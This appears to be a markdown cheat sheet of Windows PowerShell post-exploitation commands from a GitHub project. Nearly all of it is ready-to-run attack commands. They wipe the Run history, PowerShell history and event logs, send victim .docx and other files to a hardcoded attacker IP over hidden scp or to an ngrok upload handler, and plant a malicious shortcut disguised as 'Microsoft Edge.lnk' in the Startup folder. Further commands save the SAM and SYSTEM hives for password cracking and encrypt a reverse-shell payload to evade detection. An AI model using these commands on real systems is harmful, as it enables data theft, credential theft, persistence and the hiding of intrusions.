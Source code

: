 # Clear logs

1. Delete winrun history

   ```powershell
   Remove-Item -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" -Recurse
   ```

2. List powershell command history

   ```powershell
   rm (Get-PSReadlineOption).HistorySavePath;
   ```

3. Clear PowerShell events log (**Administrator only**)

   ```powershell
   clear-eventlog -logname "Windows PowerShell";
   ```

   

# Files exfiltration

### Method 1 - Using SCP

> For example, Hacker's SSH server is **43.56.175.249:55522**

On hacker's SSH server:

```bash
# Open simple python http server on hacker's host
cd ~/.ssh
python3 -m http.server 8880
```

On victim, download and configure private-key:

```bash
# Get private key from hacker's server
curl -o "$home\id_rsa" http://43.56.175.249:8880/id_rsa

# Configure permission
icacls "$home\id_rsa" /inheritance:r; icacls "$home\id_rsa" /grant:r ($(whoami) + ':R')
```

Exploit:

```powershell
# Open new process to send files
Start-Process powershell -windowstyle hidden {scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i "$home\id_rsa" -P 55522 -r "<Full path to folder>/*.docx" lamnc2@43.56.175.249:/home/lamnc2/data_exfil}
```



Copy file from SSH server to local machine:

```bash
scp -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i "$home\id_rsa" -P 55522 -r lamnc2@43.56.175.249:/home/lamnc2/data_exfil "I:\Temp_safe_to_delete\tmp"
```



### Method 2 - Using Curl

```powershell
# set $folder = folder to upload file
# set $upload_handler = url to upload handler on server
# powershell cmd: IEX (iwr -UseBasicParsing https://raw.githubusercontent.com/[link to this file])
$folder = 'I:\Personal\';
$upload_handler ='http://bc416b4d16e3.ngrok.io/upload_handler.php';
$name = [uri]::EscapeDataString((whoami));
$a = ''; (Get-ChildItem $folder -Filter '*' -Recurse -File | %{$a = $a + " -F `"file[]=@" + $_.FullName + "`" "});
$eval = "curl.exe $a $upload_handler`?folder=$name";
IEX $eval;
```

#### one-line

```powershell
$folder = 'F:\IAR401\';  $upload_handler='http://bc416b4d16e3.ngrok.io/upload_handler.php'; $name = 'hi'; $a = ''; (Get-ChildItem $folder -Filter '*.docx' -Recurse -File | %{$a = $a + " -F `"file[]=@" + $_.FullName + "`" "}); $eval = "curl.exe $a $upload_handler`?folder=$name";IEX $eval;
```



# Startup shortcut to perform scripts

### Idea

Store a malicious shortcut in startup folder. 

- startup folder (for current user) `C:\Users\<current user>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` = `$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- startup folder (for public user)



### Create malicious shortcut

![image-20201102112123102](/PowerShell%20scripts%20images/image-20201102112123102.png)



### Procedure

1. change dir to startup folder: `cd "$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"`

2. download malicious shortcut using 

   1. **Cmd**:

      `curl -L https://github.com/lamthanhnam/fpt_do-an_2020/raw/master/post_exploitation/start_up/hi.lnk` 

      - `-L`: follow redirection

   2. **Powershell**:

      `curl https://github.com/lamthanhnam/fpt_do-an_2020/raw/master/post_exploitation/start_up/hi.lnk`

   

#### **One-line command**

```bash
cd "$HOME\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"; curl -o "Microsoft Edge.lnk" https://github.com/lamthanhnam/public/raw/master/start_up/hi.lnk
```





# Get SAM and SYSTEM file for password decryption

```powershell
reg save hklm\sam $env:PUBLIC\Documents\hi_sam
reg save hklm\system $env:PUBLIC\Documents\hi_system
```





# Symmetric Encryption

Apply symmetric encryption to encrypt payload

```powershell
# Use with one-line command only
# Initial vars
$PayloadPath = "$pwd\rs_pay_final"
# $key = "1234567890123456" #<16, 24, 32 chars>
# $skey = [byte[]]("$key").ToCharArray()
$skey = (1..16)

# create secure string
$content = cat $PayloadPath

#---------- Encrypt -------------
$ss = ConvertTo-SecureString -String "$content" -Force -AsPlainText
$cipher = ConvertFrom-SecureString -SecureString $ss -Key $skey #Converts a secure string to an encrypted standard string

#----------- Decrypt -------------
# Apply to: https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.securestringtobstr?view=netcore-3.1#moniker-applies-to
# Ref: https://stackoverflow.com/a/28353003

# ----- Prepare variable for decrypt
$cipher = "..."
$skey = [byte[]]
$ss = ConvertTo-SecureString -String $cipher -Key $skey #Converts an encrypted standard string to a secure string

# ----- DECRYPT METHOD 1
Function ConvertTo-UnsecureString {
   Param (
       [System.Security.SecureString]$ss
   )
   Try { # main decode function
       $ptr = [System.Runtime.InteropServices.Marshal]::SecureStringToGlobalAllocUnicode($ss)
       [System.Runtime.InteropServices.Marshal]::PtrToStringUni($ptr)
   }
   Finally {
       [System.Runtime.InteropServices.Marshal]::ZeroFreeGlobalAllocUnicode($ptr)
   }
}
$plain = ConvertTo-UnsecureString $ss

# ----- DECRYPT METHOD 2
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($ss)
$plain = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)

echo $plain

# ---------- Print output -------------------
Write-Host -NoNewline "$cipher"
#-------------- Write encrypted payload to file -------
Out-File -FilePath .\encrypted_rs_pay -InputObject "$func`n$cipher" -Encoding ASCII
Out-File -FilePath "$pwd\encrypted_payload" -InputObject "$cipher" -Encoding ASCII -NoNewline ;
```



# Basic

### Tail

> Equivalent to tail command in Linux

```
 Get-Content .\access.log -Wait -Tail 3
```
